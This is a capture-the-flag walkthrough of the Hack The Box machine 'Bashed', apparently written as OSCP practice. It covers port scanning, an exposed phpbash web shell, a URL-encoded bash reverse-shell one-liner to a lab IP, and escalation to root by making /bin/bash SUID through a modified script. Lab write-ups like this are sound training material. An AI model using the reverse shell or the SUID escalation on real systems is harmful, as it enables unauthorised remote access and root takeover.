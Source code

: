 ```yaml
---
description: Easy machine OSCP style
---
```


# Bashed

## Reconnaissance

Ensuring the machine is up by pinging it. Moreover, it is a Linux machine due to the TTL is 63 (should be 64, but the packet jumps over an intermediary node of htb). For Windows machines, the TTL should be 128, or in this case 127.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-23 a las 11.35.03.png" alt=""><figcaption></figcaption></figure>

Scanning for open ports using nmap. Only port 80 is open.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-23 a las 11.36.41.png" alt=""><figcaption></figcaption></figure>

We perform a version detection scan over the port 80 to know what version of the server is running.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-23 a las 11.37.36.png" alt=""><figcaption></figcaption></figure>

Then, nothing interesting was found so we launch a http enumeration script over the http server to look for interesting paths. After investigating in some of them, we notice that /dev is the interesting one.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-23 a las 11.44.01.png" alt=""><figcaption></figcaption></figure>

## Exploiting

Inside the /dev directory, there is a file called phpbash which enables to launch a web shell where we can run commands as the user www-data.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-23 a las 11.53.36.png" alt=""><figcaption></figcaption></figure>

This is the aspect of the web shell. Now, we do not want to keep executing commands on the web shell so we send the shell to our host. We start listening on the 443 port on our host and then we execute this command in the shell to send it to the host:

```
bash -c "bash -i >%26 /dev/tcp/10.10.14.4/443 0>%261"
```

**Notice that we use %26 as it is the URL encode code for "&" and in some cases the revershe shell is not established.**&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-23 a las 11.53.56.png" alt=""><figcaption></figcaption></figure>

Now we just got the shell.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-23 a las 11.54.32.png" alt=""><figcaption></figcaption></figure>

## Privilege escalation

After running some commands to get an interactive shell, we look for what root privileges does the user have. We notice that the user scriptmanager can run root commands without password.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-23 a las 11.57.59.png" alt=""><figcaption></figcaption></figure>

Then we switch to the user scriptmanager.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-23 a las 12.00.05.png" alt=""><figcaption></figcaption></figure>

After that, we look for files with SUID privileges to exploit them but there is nothing interesting at first.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-23 a las 12.00.42.png" alt=""><figcaption></figcaption></figure>

After looking into the /var/www/html directory, there is a /script directory which has a python script and a text file. Looking into the content of those files we notice that the python script only writes some text onto the text file. So we just need to modify that script to get suid privileges on the /bin/bash.

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-23 a las 12.06.10.png" alt=""><figcaption></figcaption></figure>

We modify the script so when it gets executed, the suid will be applied to the /bin/bash so the user could run a bash as root.&#x20;

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-23 a las 12.10.00.png" alt=""><figcaption></figcaption></figure>

Having a bash as root, we just get the flag and PWNED!

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-23 a las 12.12.48.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Captura de pantalla 2023-02-23 a las 12.11.59.png" alt=""><figcaption></figcaption></figure>
